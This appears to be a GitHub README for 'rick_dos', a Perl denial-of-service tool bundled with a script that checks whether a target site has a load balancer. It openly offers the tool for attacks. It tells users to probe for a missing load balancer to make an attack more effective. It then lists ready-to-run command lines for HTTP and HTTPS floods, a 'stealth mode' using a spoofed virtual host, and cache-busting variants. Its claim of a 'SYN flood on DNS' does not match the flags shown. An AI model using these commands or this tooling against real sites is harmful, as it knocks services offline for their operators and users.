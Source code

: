 # rick_dos and Load Balancer Check
Tool Write in Python to Make Denial of Service and Verify if Site have Load Balancer

I recomend use Linux to make attack, this tool make SYN flood on DNS

To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

#Install

```
git clone xxxxx

cd rick_dos
sudo chmod +x rickhack.pl rickhack_loadbalancer_check.sh
```

# dependencies
```
sudo apt-get install perl-doc
```

# usage:


**To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

Load Balancer Check:

usage: ./rickhack_loadbalancer_check.sh [domain]
Dont use http or https in name of domain
usage: ./rickhack_loadbalancer_check.sh example.com

```
./rickhack_loadbalancer_check.sh example.com
```

![image](https://user-images.githubusercontent.com/38327991/158487328-fa3be986-7ae3-4033-878b-869acc2d381f.png)


If the target has a load balancer it will appear like this:

![image](https://user-images.githubusercontent.com/38327991/158487613-a44542aa-3604-4147-9974-1d418e3487be.png)



For Help:
```
perldoc ./rickhack.pl
```

For testting the program:
```
./rickhack.pl -dns www.example.com -port 80 -test
```


For HTTP Dos Attack:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5
```

Attack with httpready:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready
```

Attack with stealth mode using virtualhost
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com
```

Attack on sites with HTTPS, SSL
```
./rickhack.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https
```

Attack with Cache
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache
```


# Glory to Ukraine!!!

![image](https://user-images.githubusercontent.com/38327991/158488171-b2d3fb1a-d100-4940-ac47-a9bd9dc0c2f0.png)
